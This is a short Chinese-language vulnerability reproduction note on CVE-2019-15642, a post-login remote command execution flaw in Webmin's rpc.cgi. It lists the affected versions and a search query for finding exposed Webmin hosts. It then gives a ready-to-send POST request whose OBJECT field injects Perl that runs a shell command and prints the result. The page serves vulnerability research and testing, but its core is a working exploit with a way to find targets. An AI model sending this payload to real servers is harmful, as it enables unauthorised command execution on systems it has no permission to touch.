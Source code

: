 # Webmin rpc.cgi 后台远程命令执行漏洞 CVE-2019-15642

## 漏洞描述

Webmin是一套基于Web的用于类Unix操作系统中的系统管理工具。
 Webmin 1.920及之前版本中的rpc.cgi文件存在安全漏洞。攻击者可借助特制的对象名称利用该漏洞执行代码。

## 漏洞影响

<a-checkbox checked>Webmin < 1.920</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="webmin"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661479903495-110cfdb8-0a65-4ffb-8779-62b388a34563-20220827185020021.png)

登录后发送请求包

```php
POST /rpc.cgi 
Referer: https://xxx.xxx.xxx.xxx/sysinfo.cgi?xnavigation=1

OBJECT Socket;print "Content-Type: text/plain\n\n";$cmd=`id`;print "$cmd\n\n";
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1661594728166-0b339795-35a4-48c7-9158-5e1f4ac9ca6e.png)